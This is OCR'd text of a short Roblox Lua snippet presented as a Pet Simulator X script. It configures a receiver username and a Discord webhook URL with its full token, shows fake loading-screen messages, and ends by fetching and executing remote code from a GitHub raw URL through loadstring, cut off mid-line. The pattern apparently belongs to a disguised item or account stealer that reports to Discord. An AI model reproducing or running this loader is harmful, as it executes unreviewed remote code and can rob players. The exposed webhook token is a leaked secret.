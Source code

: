 Username = "RYANKSA566"
WebHook = "https://discord.com/api/webhooks/1098303353190109265/iUtGVBcWAgOjL2AZf41plG9zrH3CsvNMS2ocG11vLutdgYekV90e8q2BteEFPcphHVXb"


loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "PSX Script"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))(
